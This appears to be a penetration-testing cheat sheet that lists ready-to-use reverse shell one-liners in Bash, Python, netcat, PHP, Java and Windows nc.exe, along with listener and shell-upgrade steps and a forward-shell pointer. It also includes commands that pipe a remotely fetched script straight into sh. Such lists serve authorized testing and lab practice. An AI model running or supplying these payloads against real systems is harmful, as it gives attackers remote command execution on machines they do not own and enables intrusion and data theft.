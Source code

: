 ```yaml
---
title: "Reverse-Shell"
description: "Commands to start a reverse shell on multiple languages"
date: 24/11/2019
categories:
 - Misc
tags:
 - netcat
 - bash
 - shell
---
```



A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine

### Listen with NetCat

To listen for an incoming connection and upgrade to a pty shell:

```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
> instead of the one provided by the OS

You can use [`rlwrap`](https://linux.die.net/man/1/rlwrap) to use arrow keys.


### Listen with PwnCat

[`pwncat`](https://pwncat.org/) is a `netcat` with advanced features.

```bash
pwncat -lv {PORT}
```


### Upgrade the shell

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:

```bash
stty raw -echo
```

The console should be black, next foreground the shell with:

```bash
fg
reset
```

On target host:

```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

Now you should have a complete shell with shortcuts available.


## On the remote server

### Windows

Upload [`nc.exe`](https://eternallybored.org/misc/netcat/) on the remote server
then use the command (same as [NetCat](#netcat)):

```bash
cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
```


### PowerShell

This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).


### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
> force the `bash`


### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

> This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


### Reverse Shell as a Service

This website generates a `bash` script with multiple reverse shell.
It detects available tools and runs with the correct payload.


```bash
curl https://resh.now.sh/{IP}:{PORT} | sh
```

You can also copy the script locally and expose to the server using a Python
HTTP server:

```bash
# On your machine
cd www
curl https://resh.now.sh/{IP}:{PORT} > x
python -m http.server

# On the remote machine
curl http://{IP}/x | sh
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
